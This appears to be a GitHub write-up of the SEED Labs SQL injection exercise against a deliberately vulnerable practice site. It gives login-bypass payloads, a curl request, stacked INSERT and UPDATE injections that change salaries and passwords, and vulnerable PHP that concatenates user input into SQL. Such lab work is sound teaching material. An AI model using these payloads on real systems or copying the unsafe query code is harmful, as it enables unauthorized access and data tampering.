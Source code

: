 # seedlab-SQL-Injection-Attacks


###Task 1:
Log in MYSQL:


      mysql -u root -pseedubuntu
		
      mysql> use Users;
		
      mysql> show tables;


//Use such a SQL query:

      select * from credential where Name='Alice';


![alt tag](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/task%201.png)




###Task 2:
--> Task 2.1
	
      .USERNAME: "Admin' #"
	
      .PASSWORD: "xyz" (here is password is optional)

//We will result in SQL Query


      SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
		  
      FROM credential
		  
      WHERE name='Admin' #' && password='xyz'


--> Task 2.2

    1- Write Code on Terminator in Seed Lab:
	curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';
	2- Copy the HTML code.
	3- Make a new file in location "file:///home/seed/Documents/temp.html"
	4. Run this location on browser



![alt tag](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/task%202.2.png)


--> Task 2.3:	inject statment to append a row to current database:

    	INSERT INTO credential (name,eid) VALUES('Waleed', '17422');
	
 //After row inserted, go to browser and input as:
	
  
  .USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Waleed','17422') #"
	
  
  .PASSWORD: "" (blank field)




![alt tag](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/task%202.3.png)


###Task 3
Run This  "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" to browser

--> Task 3.1

    1- Login as Username= 'Alice' && Password = xyz, 
	
    2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	  
    3- Update Phone Number as ', Salary=1000000 and save.


--> Task 3.2

    1- Login as Username= 'Boby' #' and then open edit profile
	
    2- Update Phone Number: ',Salary=0 and remaining unchanges



![alt tag](https://github.com/Qurat-ul-ainn/seedlab-SQL-Injection-Attacks/blob/main/task%203.2.png)
	
 //Login as Alice
	
//Assume login as Boby and keep Alice login too. Open Alice profile edit
	
  
      Update Phone Number: ', Salary=1 where name='Boby' #



--> Task 3.3:	We're login as Boby but change password of Alice


```
    $conn = getDB();
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
	if($input_pwd!=''){
	// In case password field is not empty.
	$hashed_ = sha1($input_pwd);
	//Update the password stored in the session.
	$_SESSION['pwd']=$hashed_pwd;
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	}else{
	// if passowrd field is empty.
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
	$conn->query($sql);
	$conn->close();
	header("Location: unsafe_home.php");
	exit();
